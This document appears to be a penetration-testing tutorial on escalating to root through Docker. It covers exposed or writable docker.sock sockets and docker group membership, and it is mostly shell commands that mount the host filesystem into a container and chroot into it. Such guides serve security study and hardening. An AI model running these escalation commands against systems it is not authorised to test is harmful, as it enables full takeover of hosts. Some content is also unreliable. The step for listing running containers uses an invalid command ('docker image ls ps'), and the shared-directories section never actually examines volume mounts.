







### **Introduction**

Docker is a tool designed to create, deploy, and run applications by using containers. Containers allow a developer to package up an application with all parts needed, such as libraries and dependencies.

### **Docker Shared Directories**

Shared directories (volume mounts) between the host system and Docker containers can be exploited if improperly configured. If sensitive files are shared with the container, they can be accessed and used for escalation.

1.  Check if the Docker socket is exposed.  
    `hackfast@ubuntu:/# ls -l /var/run/docker.sock`  

    

2.  Use the docker image to list all running containers.  
    `hackfast@ubuntu:/# docker image ls ps`  
    
    

3.  Start a new privileged container with access to the host filesystem.  
    `hackfast@ubuntu:/# docker -H unix:///var/run/docker.sock run --rm -it --privileged -v /:/host ubuntu chroot /host`  
    
    

### **Docker Group Membership**

If a user is a member of the docker group, they can effectively run commands as root because Docker daemon commands have root privileges.

1.  Verify if the current user is in the docker group.  
    `hackfast@ubuntu:~$ id`  
    
    
    
2.  Use Docker to start a container with access to the host filesystem.  
    `hackfast@ubuntu:~$ docker run -v /:/mnt --rm -it ubuntu chroot /mnt /bin/bash`  
    
    
    

### **Writable Docker Socket**

A writable Docker socket (/var/run/docker.sock) can allow users to run Docker commands as root, leading to full control over the host system.

1.  Verify if the Docker socket is writable.  
    `hackfast@ubuntu:~$ ls -l /var/run/docker.sock`  
    
    
    
2.  Use the writable Docker socket to start a new container with access to the host filesystem.  
    `hackfast@ubuntu:~$ docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt /bin/bash`  
    
    